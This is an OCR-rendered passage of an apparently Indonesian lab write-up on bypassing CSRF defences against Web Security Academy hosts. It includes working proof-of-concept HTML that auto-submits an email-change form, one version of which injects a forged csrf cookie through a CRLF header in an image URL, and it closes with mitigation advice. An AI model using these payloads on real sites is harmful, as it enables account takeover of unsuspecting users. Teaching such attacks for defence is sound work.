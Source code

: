 ```markdown
		<input type="text" name="email" value="rad1zly@hack.com">
		<input type="text" name="csrf" value="fake">
		<input type="submit" value="Send">
	</form>
<img src="http://ac071f601e8dc74380609c1d000900b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
</body>
</html>

```

### Metode Bypass 5: Mengirimkan nilai `null` pada token CSRF.

```markdown
Skenario: Validasi token CSRF tergantung pada nilai token yang ada.

1. Lakukan interaksi terhadap beberapa fungsi dan Intercept request yang ada.
2. Kirim request tersebut ke repeater.
3. tambahkan null parameter dan generate CSRF PoC
4. Edit html sesuai kebutuhan, contoh:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="rad1zly@hack.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Kemudian kirim html tersebut atau buka pada website dan klik submit.
6. Lihat apa yang terjadi pada akun tersebut.
```

## Mitigasi    
Menggunakan Token CSRF     
Cara paling kuat untuk bertahan dari serangan CSRF adalah dengan menyertakan [CSRF token](https://portswigger.net/web-security/csrf/tokens) dalam request yang relevan. Tokennya harus:  
- Tidak dapat diprediksi dengan entropi tinggi, seperti token sesi pada umumnya.
- Terikat dengan sesi pengguna.
- Divalidasi secara ketat dalam setiap kasus sebelum tindakan yang relevan dijalankan.
    

## Referensi
